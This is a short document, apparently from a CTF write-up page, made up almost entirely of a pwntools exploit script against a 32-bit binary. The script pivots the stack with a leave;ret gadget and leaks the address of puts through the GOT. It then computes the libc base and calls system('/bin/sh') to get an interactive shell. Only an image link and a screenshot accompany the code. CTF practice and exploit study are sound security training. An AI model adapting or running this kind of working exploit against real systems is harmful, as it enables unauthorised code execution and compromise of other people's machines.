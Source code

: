 ```plain
sl      = lambda data               :p.sendline(str(data))
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

puts_plt=0x08048350
puts_got=elf.got['puts']
s_addr=0x0804A300


leave_ret=0x08048542
main=0x08048513

ru('What is your name?')
pl=p32(0)+p32(puts_plt)+p32(main)+p32(puts_got)
s(pl)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

puts=uu32(r(4))
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)
system=libcbase+libc.symbols['system']
leak('system',system)
binsh=libcbase+next(libc.search('/bin/sh\00'))
leak('binsh',binsh)

ru('What is your name?')
pl3=p32(0)+p32(system)+p32(0)+p32(binsh)
s(pl3)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

p.interactive()
```

[![](assets/1701612250-26749ba8bb7c34aba5c15271b71731e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725220227-e32fe62a-2af3-1.png)
